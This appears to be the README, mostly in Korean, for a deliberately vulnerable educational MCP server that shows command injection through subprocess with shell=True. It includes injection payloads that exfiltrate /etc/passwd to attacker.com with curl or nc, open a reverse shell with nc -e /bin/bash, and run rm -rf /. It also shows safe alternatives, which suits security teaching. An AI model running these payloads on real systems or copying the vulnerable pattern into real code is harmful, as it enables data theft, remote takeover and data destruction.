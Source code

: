 # Vulnerable MCP Server - Command Injection 예제

## ⚠️ CRITICAL SECURITY WARNING ⚠️

**🚨 THIS SOFTWARE IS INTENTIONALLY VULNERABLE AND FOR EDUCATIONAL PURPOSES ONLY 🚨**

- ❌ **DO NOT USE IN PRODUCTION ENVIRONMENTS**
- ❌ **DO NOT USE ON SYSTEMS WITH REAL DATA**
- ❌ **DO NOT USE ON SYSTEMS ACCESSIBLE TO UNTRUSTED USERS**
- ✅ **USE ONLY IN ISOLATED, CONTROLLED ENVIRONMENTS**
- ✅ **USE ONLY FOR EDUCATIONAL AND TESTING PURPOSES**

**This software contains intentional Command Injection vulnerabilities for security education.**

## 개요

이 프로젝트는 Command Injection 취약점을 보여주는 교육용 MCP (Model Context Protocol) 서버입니다. 보안 취약점의 위험성을 이해하고 안전한 코딩 방법을 학습하기 위한 목적으로 제작되었습니다.

## 포함된 취약점

### 1. search_files 함수
```python
command = f"find ./sandbox -name '{filename}' 2>/dev/null"
result = subprocess.run(command, shell=True, capture_output=True, text=True)
```

**취약점**: 사용자 입력이 직접 shell 명령어에 삽입됩니다.

**공격 예시**:
```
filename = "test.txt; rm -rf /"
filename = "test.txt && cat /etc/passwd"
filename = "test.txt | nc attacker.com 4444"
```

### 2. list_directory 함수
```python
command = f"ls -la '{path}' 2>/dev/null"
result = subprocess.run(command, shell=True, capture_output=True, text=True)
```

**취약점**: 경로 입력이 직접 shell 명령어에 삽입됩니다.

**공격 예시**:
```
path = "/tmp; cat /etc/passwd"
path = "/tmp && whoami"
path = "/tmp | curl -X POST http://attacker.com/data -d @/etc/passwd"
```

### 3. execute_command 함수
```python
result = subprocess.run(command, shell=True, capture_output=True, text=True)
```

**취약점**: 사용자 입력을 그대로 shell에서 실행합니다. 가장 위험한 취약점입니다.

**공격 예시**:
```
command = "rm -rf /"
command = "curl -X POST http://attacker.com -d @/etc/passwd"
command = "nc -e /bin/bash attacker.com 4444"
```

## 실행 방법

1. Python 3.7 이상이 설치되어 있는지 확인하세요.

2. 서버 실행:
```bash
python vulnerable_mcp_server.py
```

3. JSON-RPC 요청으로 도구 호출:
```json
{
  "jsonrpc": "2.0",
  "id": 1,
  "method": "tools/call",
  "params": {
    "name": "search_files",
    "arguments": {
      "filename": "test.txt"
    }
  }
}
```

## 안전한 대안

### 1. subprocess.run에서 shell=False 사용
```python
# 안전한 방법
result = subprocess.run(
    ["find", "./sandbox", "-name", filename],
    capture_output=True,
    text=True
)
```

### 2. 입력 검증 및 이스케이프
```python
import shlex
import re

def validate_filename(filename):
    # 파일명 검증
    if not re.match(r'^[a-zA-Z0-9._-]+$', filename):
        raise ValueError("Invalid filename")
    return shlex.quote(filename)

# 사용 예시
safe_filename = validate_filename("test.txt")
command = f"find ./sandbox -name {safe_filename}"
```

### 3. 허용된 명령어만 실행
```python
ALLOWED_COMMANDS = ["ls", "find", "grep"]

def execute_safe_command(command_name, *args):
    if command_name not in ALLOWED_COMMANDS:
        raise ValueError("Command not allowed")
    
    result = subprocess.run(
        [command_name] + list(args),
        capture_output=True,
        text=True
    )
    return result
```

## 보안 모범 사례

1. **입력 검증**: 모든 사용자 입력을 검증하고 정제합니다.
2. **최소 권한 원칙**: 필요한 최소한의 권한만 부여합니다.
3. **화이트리스트**: 허용된 명령어나 패턴만 사용합니다.
4. **이스케이프**: 특수 문자를 적절히 이스케이프합니다.
5. **로그 기록**: 모든 명령어 실행을 로그에 기록합니다.

## 법적 고지

이 코드는 교육 목적으로만 제공됩니다. 악의적인 목적으로 사용하는 것은 불법이며, 저자는 그에 대한 책임을 지지 않습니다. 실제 시스템에서 테스트할 때는 격리된 환경에서만 수행하세요.

## 추가 학습 자료

- [OWASP Command Injection](https://owasp.org/www-community/attacks/Command_Injection)
- [Python subprocess 보안 가이드](https://docs.python.org/3/library/subprocess.html#security-considerations)
- [MCP 공식 문서](https://modelcontextprotocol.io/)